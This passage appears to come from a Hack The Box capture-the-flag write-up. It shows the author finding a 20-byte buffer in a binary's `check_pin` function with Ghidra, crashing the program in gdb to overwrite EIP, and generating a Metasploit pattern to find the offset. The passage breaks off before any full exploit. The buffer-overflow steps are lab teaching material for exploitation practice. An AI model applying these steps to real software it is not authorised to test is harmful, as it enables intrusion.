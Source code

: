 Back to Ghidra we look at the `check_pin` function again and spot where the `name:` is being used and stored. It is stored in `local_2c` variable which is programmed to allocate 20 bytes only, here is our buffer overflow!
![](images/image13.png)

We can confirm running the binary in gdb and passing a large amount of characters when it asks for a "name":
```
$ gdb file_encrypt

(gdb) r
Starting program: /home/caue/htb/overflow/reverse/file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

The next step is to find the offset for the EIP register. If we’re able to control the values placed in the register, we can take control of the programs operational flow and redirect it to our advantage.
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
